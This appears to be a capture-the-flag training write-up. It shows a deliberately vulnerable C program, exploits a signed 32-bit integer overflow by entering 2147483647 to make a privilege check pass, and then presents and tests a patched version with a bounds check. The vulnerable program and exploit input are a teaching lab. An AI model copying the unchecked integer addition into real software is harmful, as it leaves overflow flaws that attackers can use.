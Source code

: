 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
	int cost = 100;
	int priv_level = 0;
	puts("Not only did you make it back to ground level, but you found the door to our secret research equipment. Too bad you don't have the privilege level to enter it. However you can raise the privilege level if you want.");
	char input[1000];
	while (1==1)
	{
		memset(input, 0, sizeof(input));
		fgets(input, sizeof(input) - 1, stdin);
		if (atoi(input) > 0)
		{
			cost = cost + atoi(input);
		}
		printf("Current privilege level needed to access this is %d.\n", cost);
		if (cost <= priv_level)
		{
			puts("I'm pretty sure that wasn't supposed to happen. Level Cleared!");
		}
	}	
}
```

Looking at the code, we see that in order to pass the level we will need to either raise the value of the int priv_level or decrease the value of the cost int. We see that the only form of input we have to this program is passing 999 characters to the input buffer via stdin, which will be converted to an integer value and added to the cost int, however it most be greater than zero so we won't be able to simply pass it a negative value. However we can still decrease the value of the cost int by using an integer overflow exploit. First let's see what type of binary this is.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e9 (master)$ file e9
e9: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=eee9ff2ac91e85085fe02b6a524e1f04b07003b9, not stripped
```

So we can see that it is a 32 bit binary. We also see that the cost int is a signed integer. The max value for a 32 bit signed integer is 0x7fffffff (hex for the decimal 2147483647). If we were to overflow that, then the integer will read as a negative value. This is because the max value for signed ints is 0x7fffffff (2147483647), and the min value for signed 32 bit C ints is -0x80000000 (-2147483648). In C when an int at 0x7fffffff has +1 added to it, it wraps back around to the min value -0x80000000. So if we just input the max value 2147483647 to the binary, it should just add it to the 100 value already in place in the cost variable and wrap around to the min value. It should be equal to -0x80000000 + 99 = -2147483549, because we needed a +1 to reach the min value.

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e9 (master)$ ./e9
Not only did you make it back to ground level, but you found the door to our secret research equipment. Too bad you don't have the privilege level to enter it. However you can raise the privilege level if you want.
2147483647
Current privilege level needed to access this is -2147483549.
I'm pretty sure that wasn't supposed to happen. Level Cleared!
^C
```

Just like that, we pwned the binary with an integer overflow attack and even accurately predcicted the exact value we would overflow it to! Now time to patch it...

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e9 (master)$ cat e9_secure.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
	int cost = 100;
	int priv_level = 0;
	puts("Not only did you make it back to ground level, but you found the door to our secret research equipment. Too bad you don't have the privilege level to enter it. However you can raise the privilege level if you want.");
	char input[1000];
	while (1==1)
	{
		memset(input, 0, sizeof(input));
		fgets(input, sizeof(input) - 1, stdin);
		if (atoi(input) > 0 && atoi(input) < (0x7fffffff - cost))
		{
			cost = cost + atoi(input);
		}
		printf("Current privilege level needed to access this is %d.\n", cost);
		if (cost <= priv_level)
		{
			puts("I'm pretty sure that wasn't supposed to happen. Level Cleared!");
		}
	}	
}
```

As you can see, I added an additional check for added the value to cost where we see if the value being added will be enough to push it to the max integer value. This way we prevent it from adding a numerical value that would potentially overflow the integer. Let's test it!

```
guyinatuxedo@tux:/Hackery/escape/endless_pit/e9 (master)$ ./e9_secure 
Not only did you make it back to ground level, but you found the door to our secret research equipment. Too bad you don't have the privilege level to enter it. However you can raise the privilege level if you want.
2147483647
Current privilege level needed to access this is 100.
2147483000
Current privilege level needed to access this is 2147483100.
640
Current privilege level needed to access this is 2147483100.
600
Current privilege level needed to access this is 2147483100.
60
Current privilege level needed to access this is 2147483160.
60
Current privilege level needed to access this is 2147483220.
60
Current privilege level needed to access this is 2147483280.
50
Current privilege level needed to access this is 2147483330.
40
Current privilege level needed to access this is 2147483370.
90
Current privilege level needed to access this is 2147483460.
90
Current privilege level needed to access this is 2147483550.
90
Current privilege level needed to access this is 2147483640.
90
Current privilege level needed to access this is 2147483640.
5
Current privilege level needed to access this is 2147483645.
1
Current privilege level needed to access this is 2147483646.
.1
Current privilege level needed to access this is 2147483646.
1
Current privilege level needed to access this is 2147483646.
1
Current privilege level needed to access this is 2147483646.
11111111111
Current privilege level needed to access this is 2147483646.
^C
```

As you can see, we are no longer able to overflow the integer. Juts like that we patched the binary!